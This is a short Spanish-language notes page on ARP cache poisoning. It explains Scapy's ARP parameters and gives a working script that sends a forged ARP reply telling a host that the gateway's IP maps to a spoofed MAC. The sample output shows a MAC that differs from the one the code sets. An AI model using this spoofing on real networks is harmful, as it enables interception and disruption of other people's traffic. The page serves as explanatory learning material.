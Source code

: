 ```yaml
---
title: "ARP"
description: "ARP"
date: 2021-10-21T15:21:01+02:00
lastmod: 2021-10-21T15:21:01+02:00
draft: true
menu:
  linux:
    parent: linux
weight: 120
toc: true
---
```



## ARP cache poisoning

Enviar un paquete ARP de respuesta a la máquina con IP `192.168.1.3` con datos falsos `psrc` y `hwsrc`:

Parámetros de la función `ARP`:
- `op=1` envía un paquete ARP request, y `op=2` envía un ARP response.
- `psrc`: source IP.
- `hwsrc`: source MAC (hardware address). Si no está presente, usa la MAC de tu propia máquina.
- `pdst`: destination IP.
- `hwdst`: destination MAC. Si no está presente, lo averigua por ARP al hacer `send()`.

```python
from scapy.all import *

# Crea un paquete de respuesta ARP destinado a pdst, con la info: psrc -> hwsrc
p = ARP(op=2, pdst='192.168.1.3', psrc='192.168.1.1', hwsrc='01:02:03:04:05:06')

# Muestra la info del paquete
p.show()
# ###[ ARP ]###
#   hwtype    = 0x1
#   ptype     = IPv4
#   hwlen     = None
#   plen      = None
#   op        = is-at
#   hwsrc     = 01:02:03:04:05:11
#   psrc      = 192.168.1.1
#   hwdst     = 00:00:00:00:00:00
#   pdst      = 192.168.1.3

# Envía el paquete, posiblemente envenenando la caché ARP del destino.
send(p)
```
